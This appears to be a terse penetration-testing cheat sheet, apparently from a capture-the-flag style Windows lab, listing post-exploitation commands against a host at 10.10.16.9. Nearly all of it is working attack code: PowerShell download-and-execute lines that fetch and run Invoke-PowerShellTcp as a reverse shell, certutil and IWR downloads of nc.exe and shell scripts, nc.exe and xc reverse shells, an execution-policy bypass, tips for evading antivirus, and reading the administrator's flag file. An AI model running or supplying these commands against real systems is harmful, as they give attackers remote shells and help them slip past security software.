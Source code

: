 ### JAWS might be too old to show anything valueable
```
copy \\10.10.16.9\kali\jaws-enum.ps1 jaws-enum.ps1
CMD C:\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

### IWR slightly better than New-Object when facing anti-verus
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.9/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress ip -Port port

copy \\10.10.16.9\kali\nc.exe nc.exe


powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.9/nc.exe');

certutil -urlcache -f http://10.10.16.9/nc.exe nc.exe
certutil -urlcache -f http://10.10.16.9/shell.bat shell.bat

powershell IWR http://10.10.16.9/shell.bat -OutFile shell.bat
powershell IWR http://10.10.16.9/nc.exe -OutFile nc.exe
powershell IWR http://10.10.16.9/winPEAS.bat -OutFile winPEAS.bat
```

### No permission for .exe but only .bat
```
"C:\temp\nc.exe 10.10.16.9 4242 -e cmd" # X
winPEASx64.exe # X
.\winPEAS.bat
```

### nc.exe get banned. use xc https://github.com/xct/xc
```
powershell IWR http://10.10.16.9:8000/xc.exe -OutFile xc.exe
C:\Users\Nadine\xc.exe 10.10.16.9 4242
type c:\users\administrator\desktop\root.txt
```